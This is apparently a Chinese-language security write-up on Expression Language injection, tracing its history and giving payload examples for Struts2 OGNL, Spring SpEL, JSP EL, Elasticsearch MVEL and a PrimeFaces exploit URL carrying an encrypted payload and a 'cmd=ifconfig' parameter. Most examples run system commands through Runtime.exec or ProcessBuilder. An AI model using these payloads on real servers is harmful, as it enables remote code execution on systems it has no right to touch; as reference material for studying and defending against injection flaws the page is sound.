 # 表达式注入

> 2013年4月15日Expression Language Injection词条在OWASP上被创建，而这个词的最早出现可以追溯到2012年12月的《Remote-Code-with-Expression-Language-Injection》一文，在这个paper中第一次提到了这个名词。

> 而这个时期，只不过还只是把它叫做远程代码执行漏洞、远程命令执行漏洞或者上下文操控漏洞。像Struts2系列的s2-003、s2-009、s2-016等，这种由OGNL表达式引起的命令执行漏洞。

> 随着Expression Language越来越广泛的使用，它的受攻击面也随着展开，所以我们觉得有必要开始针对这种类型的漏洞进行一些研究，Expression Language Injection在将来甚至有可能成为SQL注入一样的存在。

| Name | Injection |
|  ----  | ----  |
| Struts2  | OGNL |
| Spring  | SPEL |
| JSP  | JSTL_EL |
| Elasticsearch  | MVEL |

# 表达式注入实例

## Struts2 ——OGNL

### 基本介绍

Strust2漏洞可谓是从一开始就高危到现在，一开始归类为命令执行，现在规范化为表达式注入，其表达式格式为

```
  @[类名]@[方法名|值]
```

举例来说

```java
@java.lang.String@format('foo %s', 'test')
```

### 基本用法

```java
ActionContext AC = ActionContext.getContext();
Map Parameters = (Map)AC.getParameters();
String expression = "${(new java.lang.ProcessBuilder('calc')).start()}";
AC.getValueStack().findValue(expression));
```

相关漏洞有`s2-015`、`s2-016`，`s2-017`等等



## Spring——SPEL

SPEl为Spring框架的EL表达式，只在Spring框架中可用

### 基本用法

```java
java
String expression = "T(java.lang.Runtime).getRuntime().exec(/"calc/")";
String result = parser.parseExpression(expression).getValue().toString();
```

## JSP——JSTL_EL

JSTL_EL为JSP自带的表达式，适用于所有的Java Web

### 基本用法

```jsp
jsp  
<spring:message text=
"${/"/".getClass().forName(/"java.lang.Runtime/").getMethod(/"getRuntime/",null).invoke(null,null).exec(/"calc/",null).toString()}">
</spring:message> 
```

### 相关漏洞

> ```
> CVE-2011-2730
> ```

## Elasticsearch——MVEL

实例有CVE-2014-3120等，MVEL同OGNL和SPEL一样，具有通过表达式执行Java代码的强大功能

### 基本用法

```java
java import org.mvel.MVEL;  
public class MVELTest {  
        public static void main(String[] args) {  
              String expression = "new java.lang.ProcessBuilder(/"calc/").start();";  
               Boolean result = (Boolean) MVEL.eval(expression, vars);  
         }  
  } 
```

## Primefaces框架

### 验证代码

```java
${facesContext.getExternalContext().getResponse().getWriter().println("~~~elinject~~~")}${facesContext.getExternalContext().getResponse().getWriter().flush()}${facesContext.getExternalContext().getResponse().getWriter().close()}
```

### Web路径

```java
${facesContext.getExternalContext().getResponse().getWriter().println(request.getSession().getServletContext().getRealPath(/"//"))}${facesContext.getExternalContext().getResponse().getWriter().flush()}${facesContext.getExternalContext().getResponse().getWriter().close()}
```



### 加密后的Payload

```
uMKljPgnOTVxmOB%2BH6%2FQEPW9ghJMGL3PRdkfmbiiPkV9XxzneUPyMM8BUxgtfxF3wYMlt0MXkqO5%2BOpbBXfBSCSkb2z5x8Cb2P%2FDS2BUn7odA0GflWHV%2B9J8uLGYIqPK9HY85O%2BJw0u5X9urorJfQZKJihsLCV%2BnqyXHs8i6uh4iIboLA2TZUiTbjc3SfybUTvPCjRdyT6rCe6MPQGqHYkBiX3K7fGPuwJ2XNONXI9N2Sup5MWcUUo87FbX3jESvOq2Bs3sDKU4bW3aCGbhUcA2ZEgSxkLcW6VKDnXV5hxvz6J4a4E6P8HCy9v8%2BdrRzmtKbwczXk%2B9n8Lm2KYS%2Fk2TJKpeKjPg0t%2BAiKzTiqak%3D
```

### 调用Payload

```
http://xx.xx.xx.xx/javax.faces.resource/?pfdrt=sc&;ln=primefaces&;pfdrid=1acBqv16SJhfc30NLxL/NinZaDI%2BoHqk1xDbSI8qOl4%2BoXsKFyqJq3gv2IBc1S89q6G1POSSKDNlzHE/%2BnsMuZgTDALpyOstkBkFVJNc2U/B%2BoceOqnpF5YZoWtF0W7qGxsImsumut7GQoKKMQcbwwL4coE07x6Mn09hfy94tuiiy6S8S1vr8kPPYzrUC5AveiE9ls7dLDiaQripnC0Z71fB1xCjkxw8wjZt3om1PT9Wq8YAqkHuBIo/soFBvM1YDnJosELhjmfoJdAGBRfullXUfVw5xEg9ykFpLaKugkbDIBgXtv58Xu4BrT0d5MAQ8BOVwjzSodkdllYCAeUklCDWRfFtZDORdcAzXVxTRkEn%2Bnx7qAFh8NwK/sDsXz6U1Q2Q/ny1UaEMFM9qrgVmfX181HXWc4TuETxLqUohfreYLJLW%2BAxcxzciqqoKj%2Bht/KJ%2B%2BGfzuNoSs0E9i9N/AL5PALrdTRg%2BuweD3CMLZgLDITkMx4z7dmP2daw2B98nrKOLHtG6nYDcDmSfy8d8IKMZJvuq/WT7JLm0PJ3UqDyvzHHjrPCDpTFhMUmftFFvi4APBpT41slHYoRKDbJMvU/upvKyAsy5xQKJ5s6x%2B4F%2By9p8Icp1TQfMcqIPwMQkvsOs8i61m6i96dpmxpfZPWprcigaWMhJG8/iYRg7ZygegrmSbovLy5Tr3Mc9GODgdTx7v396NJ75yQyU4ETmYEhNxWTIoncK7MbyBcIWR/h1GjhCwwpquKRWLb3hal8DNJxubaKnxGa9mRNaQAZRr0s%2B3eo1jeino5O8CSQzla7ACpJc3867AAGxnWrnE/weJ20W3QKj6nIz/EAyx87aVIKs%2BQH3O4IGx%2BuiZ38TvMeg6jZpkZGiRNEUEuAoV6CWlMA%2BxM6BPvbPyWsqmdI8l%2ByFBhsoSpNhel2%2B0gxS5wWqZbRyi0rjPlOzUe8Xir9mlpuBZzrUIcbaYaE8PHQno1OZ/zaHx/GzAJakSRQ5YbKQ/W/OzkokDG3M79KSCtx2jN92PtISucY%3D&;cmd=ifconfig
```



